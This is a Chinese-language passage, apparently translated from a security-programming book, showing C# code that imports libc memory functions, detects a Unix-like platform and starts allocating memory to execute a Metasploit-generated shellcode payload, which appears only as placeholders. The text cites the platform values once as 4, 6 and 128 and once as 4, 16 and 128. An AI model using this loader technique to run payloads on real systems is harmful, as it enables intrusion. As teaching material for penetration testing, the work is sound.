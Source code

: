 执行本机 Linux 有效负载

在本节中，我们将介绍如何定义可以一次编译并在 Linux 和 Windows 上运行的有效负载。但首先，我们需要从 libc 导入一些函数，并定义我们的 Linux 非托管函数委托，如清单 4-27 所示。

> [DllImport("libc")]
> 
> static extern IntPtr mprotect(IntPtr ptr, IntPtr length, IntPtr protection);
> 
> [DllImport("libc")]
> 
> static extern IntPtr posix_memalign(ref IntPtr ptr, IntPtr alignment, IntPtr size);
> 
> [DllImport("libc")]
> 
> static extern void free(IntPtr ptr);
> 
> [UnmanagedFunctionPointer(➊CallingConvention.Cdecl)]
> 
> delegate void ➋LinuxRun(); 清单 4-27：设置有效负载以运行生成的 Metasploit 有效负载

我们在靠近 Windows 函数导入的 MainClass 顶部添加了清单 4-27 中显示的行。我们从 libc 导入了三个函数——mprotect()、posix_memalign() 和 free()——并定义了一个新的委托叫做 LinuxRun ➋。它具有 UnmanagedFunctionPointer 属性，就像我们的 WindowsRun 委托一样。然而，和清单 4-25 中使用 CallingConvention.StdCall 不同，我们传递 CallingConvention.Cdecl ➊，因为 cdecl 是类 Unix 系统中的本地函数调用约定。

在清单 4-28 中，我们现在向 Main() 方法添加了一个 else if 语句，紧接着测试是否在 Windows 机器上的 if 语句（参见清单 4-26 中的 ➌）。

> else if ((int)os.Platform == 4 || (int)os.Platform == 6 || (int)os.Platform == 128)
> 
> {
> 
> if (!x86)
> 
> payload = new byte[] { [... X86-64 LINUX PAYLOAD GOES HERE ...] };
> 
> else
> 
> payload = new byte[] { [... X86 LINUX PAYLOAD GOES HERE ...] }; 清单 4-28: 检测平台并分配相应的负载

来自微软的原始 PlatformID 枚举没有包括非 Windows 平台的值。随着 Mono 的发展，已经引入了类 Unix 系统的非官方 Platform 属性值，因此我们直接将 Platform 的值与魔术整数值进行比较，而不是使用明确定义的枚举值。值 4、6 和 128 可用于确定我们是否在类 Unix 系统上运行。将 Platform 属性转换为 int 使我们能够将 Platform 值与整数值 4、16 和 128 进行比较。

一旦我们确定在类 Unix 系统上运行，我们就可以设置执行本地汇编负载所需的值。根据当前的架构，负载字节数组将被分配为我们的 x86 或 x86-64 负载。

分配内存

现在，我们开始分配内存以将汇编代码插入内存，如清单 4-29 所示。

> IntPtr ptr = IntPtr.Zero;
> 
> IntPtr success = IntPtr.Zero;
> 
> bool freeMe = false;
> 
> try
> 
> {
> 
> int pagesize = 4096;
> 
> IntPtr length = (IntPtr)payload.Length;
> 
> success = ➊posix_memalign(ref ptr, (IntPtr)32, length);
> 
> if (success != IntPtr.Zero)
> 
> {